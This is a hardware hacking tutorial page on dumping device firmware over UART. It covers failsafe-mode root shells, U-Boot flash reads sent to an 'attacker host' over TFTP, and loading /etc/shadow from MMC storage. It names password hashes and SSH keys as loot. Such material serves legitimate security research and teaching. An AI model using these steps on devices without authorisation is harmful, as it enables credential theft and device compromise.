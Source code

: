 # Extract Firmware using UART

#### At this point you should have:

* Understand what UART does (if not check: [UART](./))
* Identified UART pins (if not check:[ Identify UART](uart-from-start-to-finish.md))
* Got a working connection to UART (if not check: [Connect to UART](connect-to-uart.md))

#### Not all UART interfaces are the same. Infact manufacturers could output actually anything over it. So there is no guarante you can abuse UART to dump firmware or get a shell on the device. But there are common methods, which we want to discuss further:

{% tabs %}
{% tab title="Failsafe mode" %}
Some manufacturers build a failsafe mode in their devices, which is designed as a recovery option, if the device is not operating correctly. An example for this is OpenWRT, which will print something like this in the bootlog:

```
Press the [f] key and hit [enter] to enter failsafe mode
Press the [1], [2], [3] or [4] key and hit [enter] to select the debug level  
```

Pressing `F`  will give us a root shell:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption><p>OpenWrt command command shell</p></figcaption></figure>

Depending on your device you may have to mount the correct filesystem first:

* Run `ls /dev` or `blkid` to locate storage devices and partitions (e.g., `/dev/sda1`, `/dev/mmcblk0p2`).
* Use these commands to first create a mount point and then mound the filesystem:
  * &#x20;`mkdir /mnt/filesystem`
  * `mount /dev/<root_partition> /mnt/filesystem`
* Now you may access the filesystem under `/mnt/filesystem`

From here we can check if the root-filesystem is already been mounted and we can look for:

* /etc/shadow hashes
* ssh private keys
* other credentials
{% endtab %}

{% tab title="U-Boot" %}
If U-Boot is used, chances are that the "stop autoboot" function may not be disabled. Here we have to press any key within a certain timespan (for example 5 sec) and we will be provided with a U-Boot shell

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Typing `help` will give us a list of all available commands

To dump the firmware, we can then use one of these options:

1. **Using TFTP:**
   1. On your attacker host:
      1. Set up a TFTP server `sudo apt install tftpd-hpa` (files will be stored in`/srv/tftp`)
      2. Create a firmware.bin file, as in TFTP that can't be done by the client:
         1. ```
            cd /srv/tftp
            sudo touch firmware.bin
            sudo chmod 666 firmware.bin
            ```
   2. In U-Boot:
      1. Setup IP-Adresses:
         1. ```
            setenv ipaddr <IP of target> (e.g.: 10.0.0.2)
            setenv serverip <IP of attacker host> (e.g.: 10.0.0.1)
            ```
      2. check if IP Adress are saved: `printenv`
   3. Initialize the flash with `sf probe 0`.
   4. Copy the flash contents to RAM (adjust offset and size):&#x20;
      1. `sf read <addr in RAM> <offset in flash> <size>`
      2. `sf read 0x82000000 0x0 0x1000000`. (=16MB in this case)
   5. Transfer the data with TFTP:&#x20;
      1. `tftp <addr> <filename> <size>`
      2. `tftp 0x82000000 firmware.bin 0x1000000`.
2. We can also dump it in the console: (CAN BE SLOW!)
   1. Read data:
      1. `md.b <offset to read from> <number of bytes to read>`
      2. example: `md.b 0x82000000 0x1000000`
   2. Save data to file using `CTRL-A L` in minicom for example (has to be trimmed)
3. If we want to dump from an MMC:
   1.  ```bash
       #list available MMCs
       mmc list
       # select an MMC to dump (we have to select one else next commands fail)
       mmc dev 0
       #get info of mmc
       mmc info
       # get partition to see which partition we wanna dump (e.g. rootfs)
       mmc part
       # search in partition
       ext4ls mmc <device>:<partition> <path>
       ext4ls mmc 1:8 /home/root
       # read file from MMC to RAM
       ext4load mmc <device>:<partition> <memory_address in ram> <file_path>
       ext4load mmc 1:8 0xC6200000 /etc/shadow
       # show the file from memory
       md.b <memory_address in ram> <size>
       md.b 0xC6200000 0x43C
       ```

       Tool that does these steps automatically:[ https://github.com/nmatt0/firmwaretools](https://github.com/nmatt0/firmwaretools)
{% endtab %}

{% tab title="Root-shell" %}
If you drop directly into a root shell or if you can figure out the root-password (e.g. default creds), you can simply `dd` the partition to a usb stick or transfer it another way.

Example:

```bash
sudo dd if=/dev/sda of=/dev/sdb bs=4M status=progress
```

Replace:

* `/dev/sda` with your root filesystem device
* `/dev/sdb` with your USB stick device

Ensure you verify the correct device paths to avoid overwriting important data. You can use `lsblk` or `fdisk -l` to check your devices.
{% endtab %}
{% endtabs %}

## Analyze firmware

* Using `binwalk firmware.bin` we can try to analyze the firmware and extract sensitive information
* check the "[Analyze Firmware](../../../hardware-hacking/analyze-firmware.md)" chapter

## Resources

[https://www.cyberark.com/resources/threat-research-blog/accessing-and-dumping-firmware-through-uart](https://www.cyberark.com/resources/threat-research-blog/accessing-and-dumping-firmware-through-uart)\
[https://slava-moskvin.medium.com/extracting-firmware-every-method-explained-e94aa094d0dd](https://slava-moskvin.medium.com/extracting-firmware-every-method-explained-e94aa094d0dd)

